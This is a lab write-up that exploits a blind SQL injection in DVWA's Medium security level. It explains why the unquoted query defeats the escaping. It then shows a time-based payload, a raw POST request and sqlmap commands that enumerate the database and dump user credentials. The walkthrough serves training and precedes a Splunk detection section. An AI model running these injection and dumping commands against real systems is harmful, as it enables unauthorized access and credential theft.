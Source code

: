 ##  Launching an Attack from Another PC in the LAN:

The Medium level uses a form of SQL injection protection with the function mysql_real_escape_string(). However, due to the SQL query not having quotes around the parameter, this does not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form (see source code).

![image](https://github.com/user-attachments/assets/ba981869-abd4-4b40-9554-9be73e9f1330)

 This code tries to protect against SQL injection using `mysqli_real_escape_string()`. This function escapes special characters in the user input.

But there’s a mistake in the SQL query:

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```
❌ The user input $id is not inside quotes — so attackers can still inject SQL if they use numbers or logical conditions.

so manyone can injecting something like:

```
1 AND SLEEP(5)
```
That becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 AND SLEEP(5);
This is a time-based blind SQL injection, and it works even though you escaped the input.
```

Attackers able to intercept and modify POST data using sqlmap tool .

You're targeting:

```
http://<ip>/DVWA/vulnerabilities/sqli_blind/
```

and the form sends a POST request with parameters like:

```
POST /DVWA/vulnerabilities/sqli_blind/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

id=1&Submit=Submit
```

You want to inject a payload into id that proves SQLi is possible — ideally a time-based blind SQLi.

### Using sqlmap

```
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=YOUR_SESSION_ID" \
--technique=BT \
--level=2 \
--risk=2 \
--batch
```

![image](https://github.com/user-attachments/assets/34b7fb18-ba9c-472b-84ba-e22b468c98c9)

The injection point was confirmed on the id parameter (POST), which is vulnerable to both Boolean-based (id=1 AND 1682=1682) and Time-based (id=1 AND (SELECT SLEEP(5))) blind SQL injection; the backend uses MySQL (MariaDB fork) on Apache 2.4.63 running Debian Linux, and despite being set to Medium security, it is still injectable.

Extract data from dvwa DB:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
--dbs
```

![image](https://github.com/user-attachments/assets/c1c996df-594e-4f5d-8753-bb806893604c)

Found Databases.

Extract Table & User Info:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa --tables
```

![image](https://github.com/user-attachments/assets/519e573b-d747-406e-9edf-c9be196d1315)

Listed tables in dvwa.

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users --columns
```

Then list columns in the users table.

![image](https://github.com/user-attachments/assets/b8653499-fa81-467f-b511-9a710403f910)

Then dump usernames and passwords:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users -C user,password --dump
```

![image](https://github.com/user-attachments/assets/782a129f-ae44-472a-a204-306fe512cdcf)
 
The attack was successful


## Next, we will detect the attack using Splunk

